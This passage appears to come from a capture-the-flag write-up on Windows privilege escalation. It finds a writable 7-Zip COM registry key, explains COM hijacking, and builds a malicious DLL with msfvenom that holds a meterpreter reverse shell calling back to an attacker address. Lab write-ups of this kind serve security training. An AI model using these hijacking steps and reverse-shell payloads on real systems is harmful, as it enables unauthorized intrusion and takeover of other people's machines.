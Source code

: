 We see that the path is `C:\Program Files\7-Zip\7-zip.dll`. <br>
Now we use [Get-ACL](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.5) to check the access of the **DLL** file.

```powershell
PS C:\Temp> Get-Acl "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" | Select -ExpandProperty Access | Where-Object {$_.IdentityReference -like "*Support*"}
Get-Acl "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" | Select -ExpandProperty Access | Where-Object {$_.IdentityReference -like "*Support*"}


RegistryRights    : FullControl
AccessControlType : Allow
IdentityReference : RUSTYKEY\Support
IsInherited       : True
InheritanceFlags  : ContainerInherit
PropagationFlags  : None
```

We see that the `SUPPORT` user have `FullControl` access to the `HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32` key. <br>
&rarr; We can able to modify the **DLL** file and try to force the machine to load our malicious **DLL** which we will get privilege escalation to higher privilege.

## Privilege Escalation
### COM Hijacking
Let's review for a normal 7-Zip COM Loading process.
```markdown
# User opens .zip file in Explorer
# Windows needs archive handler
# Looks up 7-Zip CLSID: {23170F69-40C1-278A-1000-000100020000}
# Reads: HKCR\CLSID\{...}\InprocServer32\(Default) 
# Loads: "C:\Program Files\7-Zip\7-zip.dll"
# Calls: DllMain() in legitimate 7-zip.dll
```

After the COM Hijacking.
```markdown
# Same trigger (user opens .zip file)
# Same CLSID lookup
# Modified registry: InprocServer32\(Default) = "C:\Temp\info.dll"
# Loads: "C:\Temp\evil.dll" instead
# Calls: DllMain() in MALICIOUS DLL = PWNED!
```

This is one of the attack vector from [T1546.015](https://attack.mitre.org/techniques/T1546/015/) which is a privilege escalation technique. And I also found this [com-hijacking-enhancing-red-team-persistence-strategies](https://wizardcyber.com/com-hijacking-enhancing-red-team-persistence-strategies/) which is a great article to understand more about this technique.

Let's create a malicious **DLL** file with [msfvenom](https://github.com/ParrotSec/metasploit-framework/blob/master/msfvenom).

```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.59 LPORT=2222 -f dll -o info.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: info.dll
```
